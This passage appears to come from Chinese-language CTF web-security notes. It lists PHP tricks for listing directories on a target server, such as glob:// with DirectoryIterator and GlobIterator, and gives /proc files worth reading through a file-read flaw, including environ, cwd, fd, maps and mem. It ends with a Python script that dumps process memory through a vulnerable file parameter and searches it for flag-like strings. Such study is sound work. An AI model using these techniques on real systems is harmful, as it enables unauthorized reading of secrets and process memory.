   ```
  <?php
  //可用于猜解文件名
  $a = new DirectoryIterator("glob:///*");
  foreach($a as $f){
      echo($f->__toString().'<br>');
  }
  ?>
  ```

- SPL目录类：`FilesystemIterator`

  复制

  ```
  <?php
  echo new FilesystemIterator(getcwd());
  ?>
  ```

- SPL目录类：`GlobIterator`

  可通配例如`/var/html/www/flag*`

- scandir()

- 面向过程方法：opendir()，readdir()，closedir()

- 面向对象方法：PHP的`dir`类

  

### 读文件

- 特殊文件：

  - /proc/self/cmdline - 应用运行的文件夹

  - /proc/self/environ（/proc/1/environ） - 当前进程的环境变量列表，彼此间用空字符（NULL）隔开；变量用大写字母表示，其值用小写字母表示。重要的属性，比如WEB服务的权限

  - /proc/self/cwd - 当前目录

  - /proc/[PID]/fd/[NUM] - 是个目录，包含当前进程打开的每一个文件的文件描述符，这些文件描述符是指向实际文件的一个符号链接

  - /proc/self/maps + /proc/self/mem

    文件读取部分如可以seek读取，第一步通过 `/proc/self/maps` 读取堆栈分布，再读取 `/proc/self/mem` 的内存数据，再通过正则筛选符合格式的数据。

    复制

    ```
    import requests, re
    
    url = ""
    maps_url = f"{url}?file=/proc/self/maps"
    maps_reg = "([a-z0-9]{12}-[a-z0-9]{12}) rw.*?00000000 00:00 0"
    maps = re.findall(maps_reg, requests.get(maps_url).text)
    # print(maps)
    for m in maps:
        start, end = m.split("-")[0], m.split("-")[1]
        Offset, Length = str(int(start, 16)), str(int(end, 16) - int(start, 16))
        read_url = f"{url}?file=/proc/self/mem&offset={Offset}&length={Length}"
        s = requests.get(read_url).content
        rt = re.findall(b"[a-z0-9]{8}-[a-z0-9]{4}-[a-z0-9]{4}-[a-z0-9]{4}-[a-z0-9]{12}", s)
        if rt:
            print(rt)
    ```
